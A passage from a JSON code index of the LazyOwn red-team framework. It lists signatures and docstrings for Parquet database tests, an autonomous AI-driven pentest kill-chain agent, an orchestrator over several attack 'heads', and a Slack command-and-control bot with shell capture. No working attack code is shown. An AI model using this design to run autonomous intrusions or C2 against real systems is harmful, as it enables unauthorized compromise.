"signature": "def test_soul_updater_empty_creds_noop(self, tmp_path)"}, {"doc": "Section that doesn't exist yet → appended at end of file.", "kind": "method", "line": 293, "name": "test_soul_updater_appends_new_section", "signature": "def test_soul_updater_appends_new_section(self, tmp_path)"}]}, {"doc": "Tests for lazyown_parquet_db.py — ParquetDB.  Uses tmp_path fixture exclusively; never touches real parquets/ or sessions/. pandas and pyarrow are required (verified at import time).", "id": "skills/tests/test_parquet_db.py", "kind": "module", "label": "test_parquet_db.py", "language": "py", "sha256": "0c717fee7bb93822", "symbol_count": 33, "symbols": [{"doc": "Write a minimal session CSV file compatible with ParquetDB.sync().", "kind": "function", "line": 56, "name": "_write_csv", "signature": "def _write_csv(path, rows)"}, {"doc": "Create a ParquetDB pointed entirely at tmp_path.\n\nWe patch _root / _parquets / _session_pkt and also pass a non-existent\nlazyown.py so _build_cmd2_category_map returns {} gracefully.", "kind": "function", "line": 67, "name": "_make_db", "signature": "def _make_db(tmp_path)"}, {"kind": "class", "line": 91, "name": "TestParquetDBSync", "signature": "class TestParquetDBSync"}, {"kind": "class", "line": 177, "name": "TestParquetDBAnnotate", "signature": "class TestParquetDBAnnotate"}, {"kind": "class", "line": 276, "name": "TestParquetDBQuerySession", "signature": "class TestParquetDBQuerySession"}, {"kind": "class", "line": 351, "name": "TestParquetDBQueryKnowledge", "signature": "class TestParquetDBQueryKnowledge"}, {"kind": "class", "line": 401, "name": "TestStableId", "signature": "class TestStableId"}, {"doc": "Create a minimal CSV, sync() → parquet has correct rows.", "kind": "method", "line": 92, "name": "test_sync_from_csv", "signature": "def test_sync_from_csv(self, tmp_path)"}, {"doc": "Rows with empty command → skipped by sync().", "kind": "method", "line": 121, "name": "test_sync_skips_empty_command", "signature": "def test_sync_skips_empty_command(self, tmp_path)"}, {"doc": "Syncing the same CSV twice → second sync adds 0 rows.", "kind": "method", "line": 140, "name": "test_sync_idempotent", "signature": "def test_sync_idempotent(self, tmp_path)"}, {"doc": "Synced parquet has all SCHEMA_COLS columns.", "kind": "method", "line": 155, "name": "test_schema_cols", "signature": "def test_schema_cols(self, tmp_path)"}, {"doc": "sync() with non-existent CSV → returns 0, no crash.", "kind": "method", "line": 170, "name": "test_sync_missing_csv", "signature": "def test_sync_missing_csv(self, tmp_path)"}, {"kind": "method", "line": 178, "name": "_setup_with_one_row", "signature": "def _setup_with_one_row(self, tmp_path)"}, {"doc": "sync then annotate a row with success=False → success column updated.", "kind": "method", "line": 198, "name": "test_annotate", "signature": "def test_annotate(self, tmp_path)"}, {"doc": "annotate() can update category field.", "kind": "method", "line": 208, "name": "test_annotate_category", "signature": "def test_annotate_category(self, tmp_path)"}, {"doc": "annotate() with a non-existent row_id → returns False.", "kind": "method", "line": 217, "name": "test_annotate_missing_id", "signature": "def test_annotate_missing_id(self, tmp_path)"}, {"doc": "annotate_rich with output containing 'password:' → finding_type='credential'.", "kind": "method", "line": 223, "name": "test_annotate_rich_finding_type_credential", "signature": "def test_annotate_rich_finding_type_credential(self, tmp_path)"}, {"doc": "annotate_rich with 'CVE-' in output → finding_type='vulnerability'.", "kind": "method", "line": 233, "name": "test_annotate_rich_finding_type_vulnerability", "signature": "def test_annotate_rich_finding_type_vulnerability(self, tmp_path)"}, {"doc": "annotate_rich with NTLM hash pattern → finding_type='hash'.", "kind": "method", "line": 243, "name": "test_annotate_rich_finding_type_hash", "signature": "def test_annotate_rich_finding_type_hash(self, tmp_path)"}, {"doc": "annotate_rich stores at most 300 chars of output.", "kind": "method", "line": 256, "name": "test_annotate_rich_output_snippet_truncated", "signature": "def test_annotate_rich_output_snippet_truncated(self, tmp_path)"}, {"doc": "annotate_rich with explicit finding_type overrides auto-detect.", "kind": "method", "line": 265, "name": "test_annotate_rich_explicit_finding_type", "signature": "def test_annotate_rich_explicit_finding_type(self, tmp_path)"}, {"kind": "method", "line": 277, "name": "_setup_two_phases", "signature": "def _setup_two_phases(self, tmp_path)"}, {"doc": "query_session(phase='recon') returns only recon rows.", "kind": "method", "line": 306, "name": "test_query_session_filter", "signature": "def test_query_session_filter(self, tmp_path)"}, {"doc": "query_session(phase='scanning') returns only scanning rows.", "kind": "method", "line": 314, "name": "test_query_session_scanning_filter", "signature": "def test_query_session_scanning_filter(self, tmp_path)"}, {"doc": "query_session() with no filter returns all rows.", "kind": "method", "line": 322, "name": "test_query_session_no_filter", "signature": "def test_query_session_no_filter(self, tmp_path)"}, {"doc": "query_session() on empty parquet → returns [].", "kind": "method", "line": 328, "name": "test_query_session_empty", "signature": "def test_query_session_empty(self, tmp_path)"}, {"doc": "query_session(target='1.2.3.4') filters by destination_ip.", "kind": "method", "line": 334, "name": "test_query_session_target_filter", "signature": "def test_query_session_target_filter(self, tmp_path)"}, {"doc": "query_knowledge searches session_knowledge.parquet for a command keyword.", "kind": "method", "line": 352, "name": "test_query_knowledge_session_parquet", "signature": "def test_query_knowledge_session_parquet(self, tmp_path)"}, {"doc": "query_knowledge for keyword that doesn't exist → empty or missing key.", "kind": "method", "line": 370, "name": "test_query_knowledge_no_match", "signature": "def test_query_knowledge_no_match(self, tmp_path)"}, {"doc": "query_knowledge('curl') against real binarios.parquet → returns results.", "kind": "method", "line": 390, "name": "test_query_knowledge_keyword_binarios", "signature": "def test_query_knowledge_keyword_binarios(self, tmp_path)"}, {"doc": "Same inputs → same ID.", "kind": "method", "line": 402, "name": "test_stable_id_deterministic", "signature": "def test_stable_id_deterministic(self)"}, {"doc": "Different inputs → different IDs.", "kind": "method", "line": 408, "name": "test_stable_id_different_inputs", "signature": "def test_stable_id_different_inputs(self)"}, {"doc": "Stable ID is 16 hex chars.", "kind": "method", "line": 414, "name": "test_stable_id_length", "signature": "def test_stable_id_length(self)"}]}, {"doc": "skills/toposwarm_autonomous.py ================================ TopoSwarm Autonomous Red Team Agent ==================================== Drives LazyOwn through a full pentest kill-chain using TopoSwarm as the local AI router, with no dependency on Groq, Ollama, or Claude Code.  Architecture ------------ payload.json  →  AutonomousAgent │ phase loop (ReAct style) │ ┌───────┴───────┐ ▼               ▼ TopoSwarmBridge    ReactiveEngine route(goal)        analyse(output) │               │ ▼               │ LazyOwn PTY ───────────┘ execute tool │ ▼ StateTracker (discoveries, creds, phase) │ ▼ next goal decided", "id": "skills/toposwarm_autonomous.py", "kind": "module", "label": "toposwarm_autonomous.py", "language": "py", "sha256": "bd55f1451488d1ef", "symbol_count": 15, "symbols": [{"doc": "Tracks everything discovered during the autonomous run.", "kind": "class", "line": 127, "name": "PentestState", "signature": "class PentestState"}, {"doc": "Extract discovered information from tool output and update state.", "kind": "function", "line": 181, "name": "_parse_output", "signature": "def _parse_output(output, state, phase_name)"}, {"doc": "Return ordered list of NL goals to attempt in this phase.", "kind": "function", "line": 233, "name": "_phase_goals", "signature": "def _phase_goals(phase_idx, state, effort)"}, {"doc": "Build enumeration goals based on discovered services.", "kind": "function", "line": 286, "name": "_enum_goals", "signature": "def _enum_goals(state)"}, {"kind": "class", "line": 309, "name": "AutonomousAgent", "signature": "class AutonomousAgent"}, {"doc": "Load payload.json from LazyOwn root.", "kind": "function", "line": 479, "name": "_load_payload", "signature": "def _load_payload()"}, {"kind": "function", "line": 489, "name": "main", "signature": "def main(argv)"}, {"kind": "method", "line": 145, "name": "add_finding", "signature": "def add_finding(self, phase_name, text)"}, {"kind": "method", "line": 149, "name": "summary", "signature": "def summary(self)"}, {"kind": "method", "line": 160, "name": "to_dict", "signature": "def to_dict(self)"}, {"kind": "method", "line": 310, "name": "__init__", "signature": "def __init__(self, state, no_model, verbose, effort, max_phases, json_out)"}, {"doc": "Route a NL goal and execute it via the orchestrator.", "kind": "method", "line": 347, "name": "_execute_goal", "signature": "def _execute_goal(self, goal, phase_name)"}, {"doc": "Run one phase. Returns True if we should continue to next phase.", "kind": "method", "line": 386, "name": "_run_phase", "signature": "def _run_phase(self, phase_idx)"}, {"kind": "method", "line": 418, "name": "_save_state", "signature": "def _save_state(self)"}, {"kind": "method", "line": 432, "name": "run", "signature": "def run(self, start_phase)"}]}, {"doc": "Unified orchestrator facade collapsing daemon, hive and SWAN into one surface.  The framework historically exposes three independent autonomous heads:  * :class:`skills.autonomous_daemon.EngageOrchestrator` — single-target kill-chain executor. * :class:`skills.hive_mind.QueenBrain` — drone swarm coordinator. * :class:`skills.swan_agent.SwanOrchestrator` — MoE+RL expert ensemble.  Each ships its own input shape, result shape, event format and lifecycle. That overlap forces the operator (and the LLM) to know which head to use before they can ask a question. This module re-frames them as interchangeable :class:`IOrchestratorBackend` implementations behind a single :class:`UnifiedOrchestrator` entry point that:  1. Normalises the input into an :class:`OrchestratorGoal`. 2. Picks a backend via :class:`RouterPolicy`. 3. Executes through the backend's lazily-imported real engine. 4. Normalises the output into :class:`OrchestratorResult`. 5. Emits a structured record onto the shared event bus.  The originals are untouched — this is a façade in the Gang-of-Four sense, not a rewrite. New code calls this module; the legacy entry points keep working until they are deprecated.", "id": "skills/unified_orchestrator.py", "kind": "module", "label": "unified_orchestrator.py", "language": "py", "sha256": "77ac4d12e1fd2809", "symbol_count": 59, "symbols": [{"doc": "Configuration container for :class:`UnifiedOrchestrator`.\n\nEvery tunable lives here so the orchestrator can be reconfigured from\n``payload.json`` without code edits.", "kind": "class", "line": 51, "name": "OrchestratorConfig", "signature": "class OrchestratorConfig"}, {"doc": "Validated request shape consumed by every backend.", "kind": "class", "line": 143, "name": "OrchestratorGoal", "signature": "class OrchestratorGoal"}, {"doc": "Canonical result shape returned by :class:`UnifiedOrchestrator`.\n\nAttributes:\n    request_id: Stable id for correlating events with this run.\n    backend: Identifier of the backend that handled the request.\n    status: One of ``ok``, ``error``, ``unavailable``, ``invalid``.\n    summary: Short single-line human-readable description.\n    artefacts: Mapping of optional output paths or identifiers.\n    events: Structured event entries emitted during the run.\n    duration: Wall-clock seconds spent in :meth:`IOrchestratorBackend.run`.\n    raw: Backend-native payload (kept opaque to callers).", "kind": "class", "line": 174, "name": "OrchestratorResult", "signature": "class OrchestratorResult"}, {"doc": "Backend contract. Implementations must be side-effect-free on import.", "kind": "class", "line": 210, "name": "IOrchestratorBackend", "signature": "class IOrchestratorBackend(Protocol)"}, {"doc": "Atomic append-only writer for orchestrator events.\n\nThe bus appends one JSON line per event to\n``sessions/<events_filename>``. Writes are serialised with a process-\nlevel lock and use ``O_APPEND`` to avoid interleaving when multiple\norchestrators share the same file.", "kind": "class", "line": 224, "name": "EventBus", "signature": "class EventBus"}, {"doc": "Ordered registry of :class:`IOrchestratorBackend` implementations.", "kind": "class", "line": 300, "name": "BackendRegistry", "signature": "class BackendRegistry"}, {"doc": "Pick the best backend for a given :class:`OrchestratorGoal`.\n\nThe policy is deliberately small and explicit so the operator can\npredict routing decisions without reading the source.", "kind": "class", "line": 340, "name": "RouterPolicy", "signature": "class RouterPolicy"}, {"doc": "Adapter onto :class:`skills.autonomous_daemon.EngageOrchestrator`.", "kind": "class", "line": 408, "name": "DaemonBackend", "signature": "class DaemonBackend"}, {"doc": "Adapter onto :class:`skills.hive_mind.QueenBrain`.", "kind": "class", "line": 605, "name": "HiveBackend", "signature": "class HiveBackend"}, {"doc": "Adapter onto :class:`skills.swan_agent.SwanOrchestrator`.", "kind": "class", "line": 706, "name": "SwanBackend", "signature": "class SwanBackend"}, {"doc": "Boundary validator: raw input → :class:`OrchestratorGoal`.\n\nThe validator is the single place where user-controlled strings are\nbounded and the mode whitelist is enforced. Everything downstream\nworks with already-validated values.", "kind": "class", "line": 806, "name": "GoalValidator", "signature": "class GoalValidator"}, {"doc": "Single entry point that routes a goal through one of the backends.", "kind": "class", "line": 871, "name": "UnifiedOrchestrator", "signature": "class UnifiedOrchestrator"}, {"doc": "Return a short opaque identifier used to correlate events.", "kind": "function", "line": 963, "name": "_new_request_id", "signature": "def _new_request_id()"}, {"doc": "Construct an :class:`OrchestratorResult` with sane defaults.\n\nThe helper avoids repeating the verbose dataclass-instantiation\nkeyword list at every error path.", "kind": "function", "line": 968, "name": "_make_result", "signature": "def _make_result(request_id, backend, status, summary, artefacts, events, duration, raw)"}, {"doc": "Wire the canonical three-backend orchestrator.\n\nArgs:\n    payload: ``payload.json`` mapping. Used to derive the config and\n        forwarded to per-backend defaults.\n    sessions_dir: Optional override for the sessions directory.\n\nReturns:\n    A ready-to-use :class:`UnifiedOrchestrator`.", "kind": "function", "line": 995, "name": "build_default_orchestrator", "signature": "def build_default_orchestrator(payload, sessions_dir)"}, {"doc": "Return a config with ``payload.json`` overrides applied.\n\nArgs:\n    payload: Loaded payload mapping. ``None`` returns the defaults.\n\nReturns:\n    A new :class:`OrchestratorConfig` instance.", "kind": "method", "line": 111, "name": "from_payload", "signature": "def from_payload(cls, payload)"}, {"doc": "Return a copy with empty fields populated from ``config``.\n\nOnly fields whose absence is unambiguous are populated here.\n``task_type`` is intentionally left blank when the caller did\nnot specify one so the router scores routing purely on the goal\ntext; SWAN's backend defaults the task type internally. The\nnumeric fields ``drones`` and ``timeout`` are likewise left at\nzero so backends can apply their own defaults.", "kind": "method", "line": 156, "name": "with_defaults", "signature": "def with_defaults(self, config)"}, {"doc": "Return a JSON-serialisable dictionary of the result.", "kind": "method", "line": 197, "name": "to_dict", "signature": "def to_dict(self)"}, {"doc": "Return ``True`` when this backend can satisfy a request.", "kind": "method", "line": 215, "name": "available", "signature": "def available(self)"}, {"doc": "Execute ``goal`` and return a normalised :class:`OrchestratorResult`.", "kind": "method", "line": 219, "name": "run", "signature": "def run(self, goal)"}, {"doc": "Bind the bus to the active config.\n\nArgs:\n    config: Active orchestrator configuration.\n    root: Optional explicit sessions directory. Resolved against\n        the current working directory.\n\nRaises:\n    ValueError: When ``config.max_event_bytes`` is non-positive.", "kind": "method", "line": 233, "name": "__init__", "signature": "def __init__(self, config, root)"}, {"doc": "Return the resolved event file path.", "kind": "method", "line": 252, "name": "path", "signature": "def path(self)"}, {"doc": "Append a single sanitised event to the bus.\n\nArgs:\n    event: Event mapping. Must serialise to a JSON object whose\n        encoded form fits within ``config.max_event_bytes``.\n\nReturns:\n    ``True`` when the event was persisted, ``False`` when the\n    event was rejected (oversize, unserialisable) or the write\n    failed.", "kind": "method", "line": 256, "name": "emit", "signature": "def emit(self, event)"}, {"doc": "Bind the registry to a fixed-order tuple of backends.\n\nArgs:\n    backends: Sequence of backends. Order is preserved so the\n        router can iterate by priority.\n\nRaises:\n    ValueError: When two backends share a name.", "kind": "method", "line": 303, "name": "__init__", "signature": "def __init__(self, backends)"}, {"doc": "Return the registered backend names in declaration order.", "kind": "method", "line": 327, "name": "names", "signature": "def names(self)"}, {"doc": "Return the backend registered as ``name`` or ``None``.", "kind": "method", "line": 331, "name": "get", "signature": "def get(self, name)"}, {"doc": "Return every backend that currently reports availability.", "kind": "method", "line": 335, "name": "available", "signature": "def available(self)"}, {"doc": "Bind the policy to config and backend registry.", "kind": "method", "line": 347, "name": "__init__", "signature": "def __init__(self, config, registry)"}, {"doc": "Return the backend that should execute ``goal``.", "kind": "method", "line": 352, "name": "choose", "signature": "def choose(self, goal)"}, {"kind": "method", "line": 367, "name": "_score", "signature": "def _score(self, goal, backend)"}, {"kind": "method", "line": 404, "name": "_keyword_score", "signature": "def _keyword_score(text, keywords)"}, {"doc": "Bind to config, optional engine factory and payload mapping.\n\nArgs:\n    config: Active configuration.\n    factory: Optional callable that returns an object exposing\n        ``run() -> dict``. Injected for tests; in production the\n        adapter constructs the real ``EngageOrchestrator``\n        lazily.\n    payload: Optional ``payload.json`` mapping used to derive a\n        fallback target (``active_target`` / ``rhost`` / ``host``)\n        when the goal does not carry one explicitly.", "kind": "method", "line": 413, "name": "__init__", "signature": "def __init__(self, config, factory, payload)"}, {"doc": "Return ``True`` when the underlying engine can be imported.", "kind": "method", "line": 435, "name": "available", "signature": "def available(self)"}, {"doc": "Execute a single-target kill-chain engagement.\n\nArgs:\n    goal: The validated request shape.\n\nReturns:\n    A normalised :class:`OrchestratorResult`. ``status`` reflects\n    backend-side failures without raising.", "kind": "method", "line": 445, "name": "run", "signature": "def run(self, goal)"}, {"doc": "Return the daemon target this backend would use for ``goal``.\n\nResolution order:\n    1. ``goal.target`` when set.\n    2. ``goal.metadata[<daemon_target_keys>]``.\n    3. ``payload[<daemon_target_keys>]``.\nReturns an empty string when no candidate is available.", "kind": "method", "line": 489, "name": "effective_target", "signature": "def effective_target(self, goal)"}, {"kind": "method", "line": 502, "name": "_target_from_metadata", "signature": "def _target_from_metadata(self, goal)"}, {"kind": "method", "line": 513, "name": "_build", "signature": "def _build(self, goal, target)"}, {"kind": "method", "line": 535, "name": "_import_class", "signature": "def _import_class()"}, {"kind": "method", "line": 541, "name": "_summarise", "signature": "def _summarise(raw, target)"}, {"kind": "method", "line": 585, "name": "_artefacts", "signature": "def _artefacts(raw)"}, {"doc": "Bind to config and an optional queen factory.", "kind": "method", "line": 610, "name": "__init__", "signature": "def __init__(self, config, factory)"}, {"doc": "Return ``True`` when the hive engine is importable.", "kind": "method", "line": 619, "name": "available", "signature": "def available(self)"}, {"doc": "Plan, dispatch, collect and synthesise via the hive.", "kind": "method", "line": 629, "name": "run", "signature": "def run(self, goal)"}, {"kind": "method", "line": 677, "name": "_build", "signature": "def _build(self)"}, {"kind": "method", "line": 687, "name": "_import_factory", "signature": "def _import_factory()"}, {"kind": "method", "line": 698, "name": "_summarise", "signature": "def _summarise(tasks, synthesis)"}, {"doc": "Bind to config and an optional orchestrator factory.", "kind": "method", "line": 711, "name": "__init__", "signature": "def __init__(self, config, factory)"}, {"doc": "Return ``True`` when the SWAN engine is importable.", "kind": "method", "line": 720, "name": "available", "signature": "def available(self)"}, {"doc": "Execute a single SWAN task and normalise the result.", "kind": "method", "line": 730, "name": "run", "signature": "def run(self, goal)"}, {"kind": "method", "line": 772, "name": "_build", "signature": "def _build(self, api_key)"}, {"kind": "method", "line": 779, "name": "_import_factory", "signature": "def _import_factory()"}, {"kind": "method", "line": 785, "name": "_summarise", "signature": "def _summarise(swan_result)"}, {"kind": "method", "line": 795, "name": "_artefacts", "signature": "def _artefacts(swan_result)"}, {"doc": "Bind the validator to the active configuration.", "kind": "method", "line": 814, "name": "__init__", "signature": "def __init__(self, config)"}, {"doc": "Return a normalised goal or raise :class:`ValueError`.\n\nArgs:\n    goal: Free-form objective string.\n    mode: Routing mode (``auto`` / ``daemon`` / ``hive`` / ``swan``).\n    phase: Kill-chain phase identifier.\n    task_type: SWAN task type identifier.\n    target: Single-target identifier for the daemon backend.\n    drones: Hive drone count.\n    timeout: SWAN timeout in seconds.\n    api_key: Optional API key forwarded to the backend.\n    metadata: Optional metadata mapping carried alongside the\n        goal (used by tests to inject a stable ``request_id``).\n\nReturns:\n    A validated :class:`OrchestratorGoal`.\n\nRaises:\n    ValueError: When ``goal`` is empty or ``mode`` is unknown.", "kind": "method", "line": 818, "name": "validate", "signature": "def validate(self, goal, mode, phase, task_type, target, drones, timeout, api_key, metadata)"}, {"doc": "Bind the orchestrator to its collaborators.", "kind": "method", "line": 874, "name": "__init__", "signature": "def __init__(self, config, registry, router, validator, bus)"}, {"doc": "Return the registered backend names in declaration order.", "kind": "method", "line": 890, "name": "backends", "signature": "def backends(self)"}, {"doc": "Validate, route, execute and emit one goal end-to-end.\n\nReturns:\n    The normalised :class:`OrchestratorResult`. Validation errors\n    and missing backends are returned as results with the\n    corresponding status — this method never raises.", "kind": "method", "line": 894, "name": "execute", "signature": "def execute(self, goal, mode, phase, task_type, target, drones, timeout, api_key, metadata)"}, {"kind": "method", "line": 948, "name": "_emit", "signature": "def _emit(self, result, mode, goal)"}]}, {"doc": "LazyOwn Knowledge Refresh ========================== Refreshes the session_knowledge.parquet from the current CSV and optionally trains the sklearn classifier.  Usage: python3 skills/update_knowledge.py [--train] [--min-rows N]  Suitable for cron / post-op automation: 0 * * * * python3 $(dirname \"$0\")/update_knowledge.py --train 2>&1", "id": "skills/update_knowledge.py", "kind": "module", "label": "update_knowledge.py", "language": "py", "sha256": "cb36ed4516553172", "symbol_count": 1, "symbols": [{"kind": "function", "line": 40, "name": "main", "signature": "def main(argv)"}]}, {"doc": "slack_c2_bot_socket.py", "id": "slack_c2_bot.py", "kind": "module", "label": "slack_c2_bot.py", "language": "py", "sha256": "ed33cacf1378cdc1", "symbol_count": 16, "symbols": [{"kind": "class", "line": 28, "name": "SecureSessionManager", "signature": "class SecureSessionManager"}, {"kind": "function", "line": 95, "name": "capture_shell_output", "signature": "def capture_shell_output(cmd)"}, {"kind": "function", "line": 113, "name": "handle_message", "signature": "def handle_message(event, say, logger)"}, {"kind": "function", "line": 177, "name": "cmd_addcli", "signature": "def cmd_addcli(ack, respond, command)"}, {"kind": "function", "line": 195, "name": "cmd_clients", "signature": "def cmd_clients(ack, respond, command)"}, {"kind": "function", "line": 209, "name": "cmd_download", "signature": "def cmd_download(ack, respond, command)"}, {"kind": "function", "line": 240, "name": "handle_file", "signature": "def handle_file(event, say, logger)"}, {"kind": "function", "line": 252, "name": "mentioned", "signature": "def mentioned(ack, say, event)"}, {"kind": "method", "line": 29, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 34, "name": "register_failed_attempt", "signature": "def register_failed_attempt(self, user_id)"}, {"kind": "method", "line": 42, "name": "check_lockout", "signature": "def check_lockout(self, user_id)"}, {"kind": "method", "line": 52, "name": "check_rate_limit", "signature": "def check_rate_limit(self, user_id)"}, {"kind": "method", "line": 63, "name": "create_session", "signature": "def create_session(self, user_id)"}, {"kind": "method", "line": 71, "name": "validate_session", "signature": "def validate_session(self, user_id)"}, {"kind": "method", "line": 81, "name": "set_client", "signature": "def set_client(self, user_id, client_id)"}, {"kind": "method", "line": 85, "name": "get_client", "signature": "def get_client(self, user_id)"}]}, {"doc": "Configuration file for the Sphinx documentation builder.  For the full list of built-in configuration values, see the documentation: https://www.sphinx-doc.org/en/master/usage/configuration.html  -- Project information ----------------------------------------------------- https://www.sphinx-doc.org/en/master/usage/configuration.html#project-information", "id": "source/conf.py", "kind": "module", "label": "conf.py", "language": "py", "sha256": "ad981e1d15255de1", "symbol_count": 0, "symbols": []}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph !function(t,e){\"object\"==typeof exports&&\"undefined\"!=typeof module?module.exports=e():\"function\"==typeof define&&define.amd?define(e):(t=\"undefined\"!=typeof globalThis?globalThis:t||self).ForceGraph3D=e()}(this,(function(){\"use strict\";function t(t,e){(null==e||e>t.length)&&(e=t.length);for(var n=0,i=Array(e);n<e;n++)i[n]=t[n];return i}function e(t,e,n){return(e=function(t){var e=function(t,e){if(\"object\"!=typeof t||!t)return t;var n=t[Symbol.toPrimitive];if(void 0!==n){var i=n.call(t,e||\"default\");if(\"object\"!=typeof i)return i;throw new TypeError(\"@@toPrimitive must return a primitive value.\")}return(\"string\"===e?String:Number)(t)}(t,\"string\");return\"symbol\"==typeof e?e:e+\"\"}(e))in t?Object.defineProperty(t,e,{value:n,enumerable:!0,configurable:!0,writable:!0}):t[e]=n,t}function n(t,e){var n=Object.keys(t);if(Object.getOwnPropertySymbols){var i=Object.getOwnPropertySymbols(t);e&&(i=i.filter((function(e){return Object.getOwnPropertyDescriptor(t,e).enumerable}))),n.push.apply(n,i)}return n}function i(t){for(var i=1;i<arguments.length;i++){var r=null!=arguments[i]?arguments[i]:{};i%2?n(Object(r),!0).forEach((function(n){e(t,n,r[n])})):Object.getOwnPropertyDescriptors?Object.defineProperties(t,Object.getOwnPropertyDescriptors(r)):n(Object(r)).forEach((function(e){Object.defineProperty(t,e,Object.getOwnPropertyDescriptor(r,e))}))}return t}function r(e){return function(e){if(Array.isArray(e))return t(e)}(e)||function(t){if(\"undefined\"!=typeof Symbol&&null!=t[Symbol.iterator]||null!=t[\"@@iterator\"])return Array.from(t)}(e)||function(e,n){if(e){if(\"string\"==typeof e)return t(e,n);var i={}.toString.call(e).slice(8,-1);return\"Object\"===i&&e.constructor&&(i=e.constructor.name),\"Map\"===i||\"Set\"===i?Array.from(e):\"Arguments\"===i||/^(?:Ui|I)nt(?:8|16|32)(?:Clamped)?Array$/.test(i)?t(e,n):void 0}}(e)||function(){throw new TypeError(\"Invalid attempt to spread non-iterable instance.\\nIn order to be iterable, non-array objects must have a [Symbol.iterator]() method.\")}()}!function(t,e){void 0===e&&(e={});var n=e.insertAt;if(\"undefined\"!=typeof document){var i=document.head||document.getElementsByTagName(\"head\")[0],r=document.createElement(\"style\");r.type=\"text/css\",\"top\"===n&&i.firstChild?i.insertBefore(r,i.firstChild):i.appendChild(r),r.styleSheet?r.styleSheet.cssText=t:r.appendChild(document.createTextNode(t))}}(\".graph-info-msg {\\n  top: 50%;\\n  width: 100%;\\n  text-align: center;\\n  color: lavender;\\n  opacity: 0.7;\\n  font-size: 22px;\\n  position: absolute;\\n  font-family: Sans-serif;\\n}\\n\\n.scene-container .clickable {\\n  cursor: pointer;\\n}\\n\\n.scene-container .grabbable {\\n  cursor: move;\\n  cursor: grab;\\n  cursor: -moz-grab;\\n  cursor: -webkit-grab;\\n}\\n\\n.scene-container .grabbable:active {\\n  cursor: grabbing;\\n  cursor: -moz-grabbing;\\n  cursor: -webkit-grabbing;\\n}\");const a=\"168\",o={LEFT:0,MIDDLE:1,RIGHT:2,ROTATE:0,DOLLY:1,PAN:2},s=0,l=1,c=2,h=3,u=0,d=1,p=2,f=100,m=101,g=102,_=200,v=201,y=202,x=203,b=204,M=205,S=206,E=207,w=208,T=209,A=210,C=211,R=212,P=213,L=214,D=301,I=302,O=306,U=1e3,N=1001,F=1002,k=1003,z=1004,B=1005,H=1006,V=1007,G=1008,j=1009,W=1010,X=1011,q=1012,Y=1013,K=1014,Z=1015,$=1016,J=1017,Q=1018,tt=1020,et=35902,nt=1023,it=1026,rt=1027,at=1029,ot=1031,st=1033,lt=33776,ct=33777,ht=33778,ut=33779,dt=35840,pt=35841,ft=35842,mt=35843,gt=36196,_t=37492,vt=37496,yt=37808,xt=37809,bt=37810,Mt=37811,St=37812,Et=37813,wt=37814,Tt=37815,At=37816,Ct=37817,Rt=37818,Pt=37819,Lt=37820,Dt=37821,It=36492,Ot=36494,Ut=36495,Nt=36284,Ft=36285,kt=36286,zt=\"\",Bt=\"srgb\",Ht=\"srgb-linear\",Vt=\"display-p3\",Gt=\"display-p3-linear\",jt=\"linear\",Wt=\"srgb\",Xt=\"rec709\",qt=\"p3\",Yt=7680,Kt=512,Zt=513,$t=514,Jt=515,Qt=516,te=517,ee=518,ne=519,ie=\"300 es\",re=2e3,ae=2001;class oe{addEventListener(t,e){void 0===this._listeners&&(this._listeners={});const n=this._listeners;void 0===n[t]&&(n[t]=[]),-1===n[t].indexOf(e)&&n[t].push(e)}hasEventListener(t,e){if(void 0===this._listeners)return!1;const n=this._listeners;return void 0!==n[t]&&-1!==n[t].indexOf(e)}removeEventListener(t,e){if(void 0===this._listeners)return;const n=this._listeners[t];if(void 0!==n){const t=n.indexOf(e);-1!==t&&n.splice(t,1)}}dispatchEvent(t){if(void 0===this._listeners)return;const e=this._listeners[t.type];if(void 0!==e){t.target=this;const n=e.slice(0);for(let e=0,i=n.length;e<i;e++)n[e].call(this,t);t.target=null}}}const se=[\"00\",\"01\",\"02\",\"03\",\"04\",\"05\",\"06\",\"07\",\"08\",\"09\",\"0a\",\"0b\",\"0c\",\"0d\",\"0e\",\"0f\",\"10\",\"11\",\"12\",\"13\",\"14\",\"15\",\"16\",\"17\",\"18\",\"19\",\"1a\",\"1b\",\"1c\",\"1d\",\"1e\",\"1f\",\"20\",\"21\",\"22\",\"23\",\"24\",\"25\",\"26\",\"27\",\"28\",\"29\",\"2a\",\"2b\",\"2c\",\"2d\",\"2e\",\"2f\",\"30\",\"31\",\"32\",\"33\",\"34\",\"35\",\"36\",\"37\",\"38\",\"39\",\"3a\",\"3b\",\"3c\",\"3d\",\"3e\",\"3f\",\"40\",\"41\",\"42\",\"43\",\"44\",\"45\",\"46\",\"47\",\"48\",\"49\",\"4a\",\"4b\",\"4c\",\"4d\",\"4e\",\"4f\",\"50\",\"51\",\"52\",\"53\",\"54\",\"55\",\"56\",\"57\",\"58\",\"59\",\"5a\",\"5b\",\"5c\",\"5d\",\"5e\",\"5f\",\"60\",\"61\",\"62\",\"63\",\"64\",\"65\",\"66\",\"67\",\"68\",\"69\",\"6a\",\"6b\",\"6c\",\"6d\",\"6e\",\"6f\",\"70\",\"71\",\"72\",\"73\",\"74\",\"75\",\"76\",\"77\",\"78\",\"79\",\"7a\",\"7b\",\"7c\",\"7d\",\"7e\",\"7f\",\"80\",\"81\",\"82\",\"83\",\"84\",\"85\",\"86\",\"87\",\"88\",\"89\",\"8a\",\"8b\",\"8c\",\"8d\",\"8e\",\"8f\",\"90\",\"91\",\"92\",\"93\",\"94\",\"95\",\"96\",\"97\",\"98\",\"99\",\"9a\",\"9b\",\"9c\",\"9d\",\"9e\",\"9f\",\"a0\",\"a1\",\"a2\",\"a3\",\"a4\",\"a5\",\"a6\",\"a7\",\"a8\",\"a9\",\"aa\",\"ab\",\"ac\",\"ad\",\"ae\",\"af\",\"b0\",\"b1\",\"b2\",\"b3\",\"b4\",\"b5\",\"b6\",\"b7\",\"b8\",\"b9\",\"ba\",\"bb\",\"bc\",\"bd\",\"be\",\"bf\",\"c0\",\"c1\",\"c2\",\"c3\",\"c4\",\"c5\",\"c6\",\"c7\",\"c8\",\"c9\",\"ca\",\"cb\",\"cc\",\"cd\",\"ce\",\"cf\",\"d0\",\"d1\",\"d2\",\"d3\",\"d4\",\"d5\",\"d6\",\"d7\",\"d8\",\"d9\",\"da\",\"db\",\"dc\",\"dd\",\"de\",\"df\",\"e0\",\"e1\",\"e2\",\"e3\",\"e4\",\"e5\",\"e6\",\"e7\",\"e8\",\"e9\",\"ea\",\"eb\",\"ec\",\"ed\",\"e